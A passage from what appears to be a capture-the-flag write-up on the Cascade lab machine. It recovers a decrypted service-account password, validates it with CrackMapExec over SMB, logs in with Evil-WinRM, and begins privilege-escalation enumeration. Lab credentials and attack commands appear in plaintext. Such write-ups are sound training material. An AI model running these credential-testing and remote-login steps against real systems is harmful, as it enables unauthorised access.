 * I then took the string <mark style="color:yellow;">BQO5l5Kj9MdErXx6Q6AGOw==</mark>&#x20;
* It looks like it could possibly correspond to ArkSvc
* I attempted to decode it using Base64 but it did not work and the characters are nonprintable so I am assuming it is encrypted somehow
* With this information, I then go to Google "decode BQO5l5Kj9MdErXx6Q6AGOw=="
  * The first site I see is dotnetfiddle.net and I see <mark style="color:yellow;">w3lc0meFr31nd</mark>

<figure><img src="../../../.gitbook/assets/image (4) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Let's confirm our finding with CrackMapExec

```
crackmapexec smb -u 'arksvc' -p 'w3lc0meFr31nd'
SMB         10.129.54.147   445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.129.54.147   445    CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd 

```

We see that we get a hit with <mark style="color:yellow;">arksvc:w3lc0meFr31nd</mark>

Lets check login with Evil-WinRM

```
evil-winrm -i 10.129.54.147 -u arksvc
Password: w3lc0meFr31nd
```

## Privilege Escalation

### Local enumeration

whoami /priv

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

* I do not see anything interesting here

whoami /all

```
ser Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
```